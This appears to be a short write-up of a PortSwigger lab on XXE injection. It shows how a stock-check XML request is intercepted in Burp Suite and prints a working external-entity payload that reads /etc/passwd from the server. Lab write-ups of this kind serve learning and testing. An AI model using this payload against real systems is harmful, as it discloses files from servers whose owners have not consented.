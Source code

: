 # Exploiting XXE using external entities to retrieve files

## Method

``This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.``
``To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file.``

This is similar to the SOAP challenge done on picoctf.

To do this we can first open up burpsutie.

Upon putting the website into the burp suite browser we can first turn on intercept. This lab has a "Check stock" feature that uses XML and hence this is what we are required to
exploit. Upon opening this into the repeater section we can identify what the xml code is.

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
   <productId>
     1
   </productId>
   <storeId>
     1
   </storeId>
</stockCheck>

```

Upon seeing this we can do 2 things. One is insert our external entity <!DOCTYPE test  
``` <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>  ```
and It essentially creates an entity named xxe that points to the /etc/password file on the web server.
We then pass use the numbers in productId and storeId to contain our payload which will recieve the file contents of ``/etc/passwd``.
we can name this *&xxe*

![image](https://github.com/user-attachments/assets/d29fc4bb-a64d-4d05-9a1c-56f08ede4dce)

Hence we can then see on the port swigger website that it has been solved.

![image](https://github.com/user-attachments/assets/e86d7eca-310d-4e32-88da-359f76d9e0f9)

---
